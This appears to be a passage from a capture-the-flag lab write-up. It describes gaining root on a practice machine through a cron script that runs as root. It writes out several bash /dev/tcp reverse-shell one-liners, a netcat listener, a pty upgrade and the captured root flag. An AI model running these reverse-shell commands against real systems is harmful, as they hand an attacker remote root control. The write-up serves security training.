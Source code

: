 ```
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh 
#!/bin/bash
# i will run as root
boring@kral4-PC:/var/www$ 
```

We can look for reverse shell at https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

We try a `bash` reverse shell first because it's  a stable shell and it very often works. If it won't work I usually try a netcat shell. That one always worked for me.

```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```



First bash reverse shell was unstable, second was stable but only a simple shell. We can get the root flag anyway. The machine had `python3` installed so I could span a bash shell so I could see more. Changing the folder to `/root/` and listing the files, I found the `.root.txt` (the `.`means it is hidden so you need the `-l` option to show all files)



```
/bin/bash -l > /dev/tcp/10.14.12.247/1234 0<&1 2>&1
```



```bash
└─$ nc -nvlp 1234                                                                                                                                                                                                                                                                                                        1 ⨯
listening on [any] 1234 ...
connect to [10.14.12.247] from (UNKNOWN) [10.10.208.230] 51916
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ls -la
ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Nov 30 14:45 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
root@kral4-PC:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@kral4-PC:~# 
```

